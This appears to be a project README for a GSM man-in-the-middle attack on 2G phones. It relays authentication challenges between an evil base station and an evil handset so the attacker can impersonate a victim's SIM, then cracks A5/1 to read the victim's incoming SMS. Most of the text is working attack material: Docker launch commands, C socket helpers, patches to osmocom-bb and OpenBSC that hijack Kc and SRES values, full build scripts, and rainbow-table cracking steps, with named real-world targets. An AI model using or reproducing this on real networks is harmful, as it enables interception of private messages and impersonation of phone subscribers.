 Hacking 2G BTS
--------------


.. image:: test3.png
   :target: test3.png
   :alt: Attack Flow


The UE has become an MS again and we know how to be a BTS !

But even in the BTS does not authenticate MS does in front of the BTS. How can we bypass this ? By respecting the attack flow above ;)

I mean the secret is the key Ki stored on the SIM even with physical access you can't crack it thanks to the chip inventor ! But we can fool the authentication process :
The original process is :


* The BTS send a rand,key_sequence to the MS.
* The MS respond SRes = f(ki,rand)
* The MS cipher the communication with Kc= f(Ki,rand,key_seq)

The hacked process is :


* The genuine BTS send a rand,key_seq to the Evil MS.
* The Evil MS send it to our Evil BTS via socket between Evil BTS server and Evil MS client.
* The Evil BTS send the rand,key_seq to genuine MS
* The Genuine MS respond sres -> Evil BTS -> Evil MS -> Genuine BTS
* In the example video Kc is forwarded between Genuine MS-> Evil MS

`Impersonnate PoC <https://www.youtube.com/watch?v=gHKmmVZAaFo>`_

With french explanations ;) sorry...

`Impersonalisaion (français) <https://www.youtube.com/watch?v=gHKmmVZAaFo>`_

With english explanation (now ;)
`Impersonate (english) <https://www.youtube.com/watch?v=rSGA4oFsFrQ>`_

https://imgur.com/lUjkpGp
First of all there is a bug with brltty so

.. code-block:: bash

   apt remove brltty

on host (not on docker !)
Launch 1st

.. code-block:: bash

   sudo docker run -it --privileged --user root --cap-add ALL  -v /dev/bus/usb:/dev/bus/usb bastienbaranoff/ms-final:hell_yeah

Launch 2nd

.. code-block:: bash

   sudo docker run -it --privileged --user root --cap-add ALL  -v /dev/bus/usb:/dev/bus/usb bastienbaranoff/bts-final:hell_yeah

In this order cause need ip 172.17.0.2 for ms and 172.17.0.3 for bts (socket are made to work with theses addresses)

in bts

.. code-block:: bash

   tmux
   cd /
   service pcscd start
   ./evil-bts.sh

`
then in ms :

.. code-block:: bash

   tmux
   cd /
   bash trx.sh
   ctrl-b c 
   ./evil-ms.sh

set IMSI in OpenBSC (via telnet)
and in /root/.osmocom/bb/mobile.cfg
and set any ki but set one in OpenBSC
need a motorola c1** and a sim reader

What happen next ?

`Crack A5/1 <https://brmlab.cz/project/gsm/deka/attack-implementation>`_

5s to crack it before the Kc ciphered channel timeout has been gone and if it is done we have incomming SMS.

Targets android < 12, telco 2G until 2025 in France

Thank for reading !

Clients-servers architecture :
------------------------------

.. code-block::

   bsc-2rfa 172.17.0.2
   server rand 888 listen on 0.0.0.0
   client sres 666 -> 172.17.0.3

   bb-2rfa 172.17.0.3
   client rand 888 -> 172.17.0.2
   server sres 666 listen on 0.0.0.0
   server kc 777 listen on 0.0.0.0

   osmocom-genuine-ms 172.17.0.2
   client kc 777 -> 172.17.0.3

Headers :
---------

suppress_space.h

.. code-block:: c

   #include <stdio.h>
   char res[100];
   char* spaces(char str [])
   {
   int i = 0;int j = 0;
          while (str[i] != '\0')
          {
             if ((str[i] == ' ') != 1) {
               res[j] = str[i];
               j++;
             }
             i++;
          }
          res[j] = '\0';
   return res;}

hex.h

.. code-block:: c

   /*
    * Read hex strings and output as text.
    *
    * No checking of the characters is done, but the strings must have an even
    * length.
    *
    * $Id: hex2ascii.c,v 1.1 2009/09/19 23:56:49 grog Exp $
    */

   #include <stdio.h>
   #include <stdlib.h>
   #include <string.h>
   #include "suppress_space.h"
   char hexdigit (char c)
   {
     char outc;

     outc = c -'0';
     if (outc > 9)                                 /* A - F or a - f */
       outc -= 7;                                  /* A - F */
     if (outc > 15)                                /* a - f? */
       outc -= 32;
     if ((outc > 15) || (outc < 0))
     {
       fprintf (stderr, "Invalid character %c, aborting\n", c);
       exit (1);
     }
     return outc;
   }
   char ascii[17];
   const unsigned char* hex2ascii(char hexval[])
   {  int arg;
     char *c=spaces(hexval);
     int sl;
     char oc;

     for (arg = 0; arg < 17; arg++)
     {
       sl = strlen (c);
       if (sl & 1)                                 /* odd length */
       {
         fprintf (stderr,
                  "%s is %d chars long, must be even\n",
                  c,
                  sl );
         return "prout";
       }int i=0;
       while (*c)
       {
         oc = (hexdigit (*c++) << 4) + hexdigit (*c++);
         fputc (oc, stdout);
         strcat(ascii,&oc);
       }
     }
   return ascii;}

client.h (respect address and port of client server arch)

.. code-block:: c

   /**
    * Example taken from CS 241 @ UIUC
    * Edited by Austin Walters
    * Used as example for austingwalters.com,
    * in socket IPC explanation.
    */

   #include <stdio.h>
   #include <stdlib.h>
   #include <string.h>
   #include <sys/types.h>
   #include <sys/socket.h>
   #include <netdb.h>
   #include <unistd.h>

   void client(char buffer[]){

     int sock_fd = socket(AF_INET, SOCK_STREAM, 0);

     struct addrinfo info, *result;
     memset(&info, 0, sizeof(struct addrinfo));
     info.ai_family = AF_INET;
     info.ai_socktype = SOCK_STREAM;

     if(0 != getaddrinfo("172.17.0.3", "888", &info, &result))
       exit(1);

     /* Connects to bound socket on the server */  
     connect(sock_fd, result->ai_addr, result->ai_addrlen);

     printf("SENDING: %s", buffer);
     write(sock_fd, buffer, strlen(buffer));

     char resp[999];
     int len = strlen(buffer);
     resp[len] = '\0';
     printf("%s\n", resp);
   }

server.h (respect variable length : 13 for sres, 25 for kc, 51 for rand, and port from arch client-server) 

.. code-block:: c

   /**
    * Written by Austin Walters
    * For an example on austingwalters.com,
    * on sockets
    */

   #include <stdio.h>
   #include <stdlib.h>
   #include <string.h>
   #include <sys/types.h>
   #include <sys/socket.h>
   #include <netdb.h>
   #include <unistd.h>
   char text[13];
   char* catch_sres(){

     int sock_fd = socket(AF_INET, SOCK_STREAM, 0);
     struct addrinfo directives, *result;
     memset(&directives, 0, sizeof(struct addrinfo));
     directives.ai_family = AF_INET;
     directives.ai_socktype = SOCK_STREAM;
     directives.ai_flags = AI_PASSIVE;

     /* Translates IP, port, protocal into struct */
     if(0 !=  getaddrinfo("0.0.0.0", "666", &directives, &result))
       exit(1);

     /* Binds socket to port, so we know where new connections form */
     if(bind(sock_fd, result->ai_addr, result->ai_addrlen) != 0)
         exit(1);
     /* Places socket to "listen" or "wait for stuff" state */
     if(listen(sock_fd, 10) != 0)
         exit(1);
     int i=0;
     printf("Waiting for connection on http://0.0.0.0:666 ...\n");
     while(i==0){

       /* Accepts Connection */
       char buffer[1000];
       int client_fd = accept(sock_fd, NULL, NULL); 
       int len = read(client_fd, buffer, 999);
       buffer[len] = '\0';

       char * header = "<b>You Connected to the Server!</b></br></br>";
       i=i+1;
       write(client_fd, header, strlen(header));

       printf("=== Client Sent ===\n");
       printf("%s\n", buffer);
       memcpy(text,buffer,13);
       close(client_fd);

     }
     return text;
   }

Evil-MS :
---------

.. code-block:: bash

   git clone https://github.com/osmocom/osmocom-bb
   git checkout fc20a37cb375dac11f45b78a446237c70f00841c
   wget https://gitlab.com/francoip/thesis/raw/public/patch/thesis.patch
   patch -p1 < thesis.patch

.. code-block:: patch

   diff -ru osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c heartbreaker/bb-2rfa/src/host/layer23/src/mobile/gsm48_mm.c
   --- osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c   2022-08-30 15:39:46.222274989 +0200
   +++ heartbreaker/bb-2rfa/src/host/layer23/src/mobile/gsm48_mm.c 2022-08-30 15:35:55.472598046 +0200
   @@ -20,6 +20,7 @@
     */

    #include <stdint.h>
   +#include <string.h>
    #include <errno.h>
    #include <stdio.h>
    #include <string.h>
   @@ -41,7 +42,7 @@
    #include <osmocom/bb/mobile/app_mobile.h>
    #include <osmocom/bb/mobile/vty.h>
    #include <osmocom/bb/mobile/dos.h>
   -
   +#include "client.h"
    extern void *l23_ctx;

    void mm_conn_free(struct gsm48_mm_conn *conn);
   @@ -1662,6 +1663,15 @@
        */
       if (mm->est_cause == RR_EST_CAUSE_EMERGENCY && set->emergency_imsi[0])
           no_sim = 1;
   +   char test2[]="1";
   +   sprintf(test2, "%d", ar->key_seq);
   +   char test3[3]="-";//"87 65 43 21 87 65 43 21 87 65 43 21 87 65 43 21";
   +   strcat(test3,test2);
   +   char test[51]="87 65 43 21 87 65 43 21 87 65 43 21 87 65 43 21";
   +   strcpy(test,osmo_hexdump(ar->rand,16));
   +   strcat(test,test3);
   +   LOGP(DMM, LOGL_INFO, "AUTHENTICATION REQUEST (seq %s)\n", test);
   +   client(test);
       gsm_subscr_generate_kc(ms, ar->key_seq, ar->rand, no_sim);

       /* wait for auth response event from SIM */
   diff -ru osmocom-bb/src/host/layer23/src/mobile/subscriber.c heartbreaker/bb-2rfa/src/host/layer23/src/mobile/subscriber.c
   --- osmocom-bb/src/host/layer23/src/mobile/subscriber.c 2022-08-30 15:38:53.125893570 +0200
   +++ heartbreaker/bb-2rfa/src/host/layer23/src/mobile/subscriber.c   2022-08-30 15:35:55.476598075 +0200
   @@ -30,6 +30,11 @@
    #include <osmocom/bb/common/osmocom_data.h>
    #include <osmocom/bb/common/networks.h>
    #include <osmocom/bb/mobile/vty.h>
   +#include "server.h"
   +#include "server2.h"
   +#include "hex.h"
   +#include "hex2.h"
   +

    /* enable to get an empty list of forbidden PLMNs, even if stored on SIM.
     * if list is changed, the result is not written back to SIM */
   @@ -945,14 +950,21 @@

           /* store sequence */
           subscr->key_seq = key_seq;
   -       memcpy(subscr->key, vec->kc, 8);
   +

           LOGP(DMM, LOGL_INFO, "Sending authentication response\n");
   +                char *h4ck3d_kc;
   +                h4ck3d_kc = catch_kc();
   +                const unsigned char *my_h4ck3d_kc=hex2ascii(h4ck3d_kc);
   +       char *h4ck3d_sres;
   +       h4ck3d_sres = catch_sres();
   +           const unsigned char *my_h4ck3d_sres=hex2ascii2(h4ck3d_sres);
   +       memcpy(subscr->key, my_h4ck3d_kc, 8);
           nmsg = gsm48_mmevent_msgb_alloc(GSM48_MM_EVENT_AUTH_RESPONSE);
   -       if (!nmsg)
   -           return -ENOMEM;
           nmme = (struct gsm48_mm_event *) nmsg->data;
   -       memcpy(nmme->sres, vec->sres, 4);
   +           memcpy(nmme->sres,my_h4ck3d_sres, 4);
   +       LOGP(DMM, LOGL_INFO, "KC hijacked = %s\n",osmo_hexdump(my_h4ck3d_kc,8));
   +       LOGP(DMM, LOGL_INFO, "SRES hijacked = %s\n",osmo_hexdump(my_h4ck3d_sres,4));
           gsm48_mmevent_msg(ms, nmsg);

           return 0;

Genuine-MS (Kc Forwarding)
--------------------------

Patch osmocom-bb

.. code-block:: bash

   git clone https://github.com/osmocom/osmocom-bb
   git checkout fixeria/trxcon

.. code-block:: patch

   diff -ru trx/src/host/layer23/src/mobile/gsm48_mm.c osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c
   --- trx/src/host/layer23/src/mobile/gsm48_mm.c  2022-08-30 16:41:37.076916961 +0200
   +++ osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c   2022-08-30 15:51:17.267099639 +0200
   @@ -1651,6 +1651,7 @@
        */
       if (mm->est_cause == RR_EST_CAUSE_EMERGENCY && set->emergency_imsi[0])
           no_sim = 1;
   +   LOGP(DMM, LOGL_INFO, "AUTHENTICATION REQUEST (rand %s)\n", osmo_hexdump(ar->rand,16));  
       gsm_subscr_generate_kc(ms, ar->key_seq, ar->rand, no_sim);

       /* wait for auth response event from SIM */
   diff -ru trx/src/host/layer23/src/mobile/subscriber.c osmocom-bb/src/host/layer23/src/mobile/subscriber.c
   --- trx/src/host/layer23/src/mobile/subscriber.c    2022-08-30 16:41:37.076916961 +0200
   +++ osmocom-bb/src/host/layer23/src/mobile/subscriber.c 2022-08-30 15:51:17.267099639 +0200
   @@ -32,7 +32,7 @@
    #include <osmocom/bb/common/sap_proto.h>
    #include <osmocom/bb/common/networks.h>
    #include <osmocom/bb/mobile/vty.h>
   -
   +#include "client.h"
    /* enable to get an empty list of forbidden PLMNs, even if stored on SIM.
     * if list is changed, the result is not written back to SIM */
    //#define TEST_EMPTY_FPLMN
   @@ -369,6 +369,7 @@

       /* key */
       memcpy(subscr->key, data, 8);
   +   //client(osmo_hexdump(subscr->key,8));

       /* key sequence */
       subscr->key_seq = data[8] & 0x07;
   @@ -907,7 +908,7 @@
       struct msgb *nmsg;
       struct sim_hdr *nsh;

   -   /* not a SIM */
   +   /* not a SIM
       if (!GSM_SIM_IS_READER(subscr->sim_type)
        || !subscr->sim_valid || no_sim) {
           struct gsm48_mm_event *nmme;
   @@ -944,6 +945,7 @@

           /* store sequence */
           subscr->key_seq = key_seq;
   +       //client(osmo_hexdump(vec->kc,8));
           memcpy(subscr->key, vec->kc, 8);

           LOGP(DMM, LOGL_INFO, "Sending authentication response\n");
   @@ -969,6 +971,7 @@

       /* random */
       memcpy(msgb_put(nmsg, 16), rand, 16);
   +   LOGP(DMM, LOGL_NOTICE, "Key Sequence=%d\n",key_seq);

       /* store sequence */
       subscr->key_seq = key_seq;
   @@ -1019,7 +1022,9 @@
       nsh->file = 0x6f20;
       data = msgb_put(nmsg, 9);
       memcpy(data, subscr->key, 8);
   -   data[8] = subscr->key_seq;
   +        LOGP(DMM, LOGL_NOTICE, "KC=%s\n",osmo_hexdump(subscr->key,8));
   +   client(osmo_hexdump(subscr->key,8));
   +   data[8] = subscr->key;
       sim_job(ms, nmsg);

       /* return signed response */

Patch OpenBSC Evil-BTS:
-----------------------

.. code-block:: bash

   git clone https://github.com/osmocom/openbsc
   git checkout 3f457a3b79e2908664b40eab9ca8e70c44a54898

.. code-block:: patch

   diff -ru openbsc/openbsc/src/libmsc/gsm_04_08.c bsc-2rfa/openbsc/src/libmsc/gsm_04_08.c
   --- openbsc/openbsc/src/libmsc/gsm_04_08.c  2022-08-30 16:59:20.033455224 +0200
   +++ bsc-2rfa/openbsc/src/libmsc/gsm_04_08.c 2022-08-30 15:51:17.243099474 +0200
   @@ -70,7 +70,10 @@
    #include <osmocom/gsm/tlv.h>

    #include <assert.h>
   +#include "server.h"
   +#include "hex.h"
   +#include "client.h"

    void *tall_locop_ctx;
    void *tall_authciphop_ctx;

   @@ -908,6 +911,20 @@
       struct msgb *msg = gsm48_msgb_alloc_name("GSM 04.08 AUTH REQ");
       struct gsm48_hdr *gh = (struct gsm48_hdr *) msgb_put(msg, sizeof(*gh));
       struct gsm48_auth_req *ar = (struct gsm48_auth_req *) msgb_put(msg, sizeof(*ar));
   +        DEBUGP(DMM, "-> AUTH REQ (rand = %s)\n", osmo_hexdump(rand, 16));
   +   
   +
   +
   +   char *test;
   +   test=catch_rand();
   +   printf("test %s\n",test);
   +   char *randy=strtok(test," -");
   +   printf("rand %s\n",rand);
   +   char *kandy_seq=strtok(NULL,"-");
   +   printf("key_seq %s\n",kandy_seq);
   +   char *randy_magnum = spaces(randy);
   +        const unsigned char *randynator=hex2ascii(randy_magnum);
   +        memcpy(rand,randynator,16);

       DEBUGP(DMM, "-> AUTH REQ (rand = %s)\n", osmo_hexdump(rand, 16));
       if (autn)
   @@ -917,7 +934,7 @@
       gh->proto_discr = GSM48_PDISC_MM;
       gh->msg_type = GSM48_MT_MM_AUTH_REQ;

   -   ar->key_seq = key_seq;
   +   ar->key_seq = kandy_seq;

Installing BTS-Evil:
--------------------

.. code-block:: bash

   git clone https://github.com/bbaranoff/heartbreaker

   #!/bin/bash
   mkdir /heartbreaker
   cd /heartbreaker
   apt install autoconf-archive libdbd-sqlite3 gcc-9 g++-9 gcc-10 g++-10 git autoconf pkg-config libtool build-essential libtalloc-dev libpcsclite-dev gnutls-dev python2 python2-dev fftw3-dev libsctp-dev libdbi-dev -y
   cp /usr/bin/python2 /usr/bin/python
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-9 90 --slave /usr/bin/g++ g++ /usr/bin/g++-9
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-10 100 --slave /usr/bin/g++ g++ /usr/bin/g++-10
   update-alternatives --set gcc /usr/bin/gcc-9
   git clone git://git.osmocom.org/libosmocore.git
   cd  libosmocore
   git checkout 1.1.0
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   cd ..
   git clone git://git.osmocom.org/libosmo-dsp.git
   cd libosmo-dsp
   libtoolize && autoreconf -fi
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   apt install -y libortp-dev
   cd ..

   git clone https://github.com/osmocom/osmocom-bb
   cd osmocom-bb/src
   git checkout fixeria/trxcon
   make nofirmware

   cd ../..
   git clone https://github.com/osmocom/libosmo-abis
   cd libosmo-abis
   git checkout 0.8.1
   autoreconf -fi && ./configure --disable-dahdi && make -j4 && make install && ldconfig

   cd ..
   git clone https://github.com/osmocom/libosmo-netif
   cd libosmo-netif
   git checkout 0.6.0
   autoreconf -fi && ./configure && make -j4 && make install && ldconfig


   cd bsc-2rfa/openbsc
   autoreconf -fi && ./configure && make -j4
   cd ../..
   git clone https://github.com/osmocom/osmo-bts
   cd osmo-bts
   git checkout 0.8.1
   autoreconf -fi && ./configure --enable-trx && make -j4 && make install && ldconfig

   apt install ruby-libxml ruby-dev ruby-dbus
   gem install serial smartcard

Installing MS-Evil :
--------------------

.. code-block:: bash

   git clone https://github.com/bbaranoff/heartbreaker

   #!/bin/bash
   mkdir /heartbreaker
   cd /heartbreaker
   apt install autoconf-archive libdbd-sqlite3 gcc-9 g++-9 gcc-10 g++-10 git autoconf pkg-config libtool build-essential libtalloc-dev libpcsclite-dev gnutls-dev python2 python2-dev fftw3-dev libsctp-dev libdbi-dev -y
   cp /usr/bin/python2 /usr/bin/python
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-9 90 --slave /usr/bin/g++ g++ /usr/bin/g++-9
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-10 100 --slave /usr/bin/g++ g++ /usr/bin/g++-10
   update-alternatives --set gcc /usr/bin/gcc-9
   git clone git://git.osmocom.org/libosmocore.git
   cd  libosmocore
   git checkout 1.1.0
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   cd ..
   git clone git://git.osmocom.org/libosmo-dsp.git
   cd libosmo-dsp
   libtoolize && autoreconf -fi
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   apt install -y libortp-dev
   cd ..

   git clone https://github.com/osmocom/osmocom-bb
   cd osmocom-bb/src
   git checkout fixeria/trxcon
   make nofirmware

   cd ../..
   git clone https://github.com/osmocom/libosmo-abis
   cd libosmo-abis
   git checkout 0.8.1
   autoreconf -fi && ./configure --disable-dahdi && make -j4 && make install && ldconfig

   cd ..
   git clone https://github.com/osmocom/libosmo-netif
   cd libosmo-netif
   git checkout 0.6.0
   autoreconf -fi && ./configure && make -j4 && make install && ldconfig
   cd ..

   cd bsc-2rfa/openbsc
   autoreconf -fi && ./configure && make -j4
   cd ../..
   git clone https://github.com/osmocom/osmo-bts
   cd osmo-bts
   git checkout 0.8.1
   autoreconf -fi && ./configure --enable-trx && make -j4 && make install && ldconfig

   apt install ruby-libxml ruby-dev ruby-dbus
   gem install serial smartcard

Installing MS-Evil
------------------

.. code-block:: bash

   #!/bin/bash
   mkdir /heartbreaker
   cd /heartbreaker
   apt install autoconf-archive libdbd-sqlite3 gcc-9 g++-9 gcc-10 g++-10 git autoconf pkg-config libtool build-essential libtalloc-dev libpcsclite-dev gnutls-dev python2 python2-dev fftw3-dev libsctp-dev libdbi-dev -y
   cp /usr/bin/python2 /usr/bin/python
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-9 90 --slave /usr/bin/g++ g++ /usr/bin/g++-9
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-10 100 --slave /usr/bin/g++ g++ /usr/bin/g++-10
   update-alternatives --set gcc /usr/bin/gcc-9
   git clone git://git.osmocom.org/libosmocore.git
   cd  libosmocore
   git checkout 0.9.0
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   cd ..
   git clone git://git.osmocom.org/libosmo-dsp.git
   cd libosmo-dsp
   libtoolize && autoreconf -fi
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig

   cd ../bb-2rfa/src
   make nofirmware

**A5/1 Cracking**
---------------------

Download the tables :

`a51_tables <https://infocon.org/rainbow%20tables/A51/>`_

Prepare them :

.. code-block:: bash


   #!/bin/bash
   offset_total=0
   echo 0 > test
   for abblay in $echo $(ls /media/$USER/tables) ; do abblay2=$(echo $abblay | sed 's/.dlt//g');
   cd /media/$USER/indexes/
   /media/$USER/indexes/kraken/TableConvert/TableConvert di /media/$USER/tables/$abblay2.dlt $abblay2.ins:$offset_total $abblay2.idx
   taille_arrondie=$(echo $(( $(( $(stat -c%s $abblay2.ins)/4096 )) +1 )) *4096 | bc)
   offset_total=$(($taille_arrondie + $offset_total))
   echo $taille_arrondie >> test
   done
   awk '{S+=$0}{print S}END{}' test > offsets
   git clone http://jenda.hrach.eu/p/deka
   git clone https://github.com/0x7678/typhon-vx/tree/master/kraken
   sudo add-apt-repository ppa:deadsnakes/ppa
   sudo apt update
   sudo apt install python3.7 python3.7-dev nvidia-utils-515-server xserver-xorg-video-nvidia-515
   sudo python3.7 -m pip install pyopencl numpy scipy
   cd deka
   ./genkernel64.sh > slice.c
   sed -i -e 's/3.5m/3.7m/g' Makefile
   make

\newpage

----
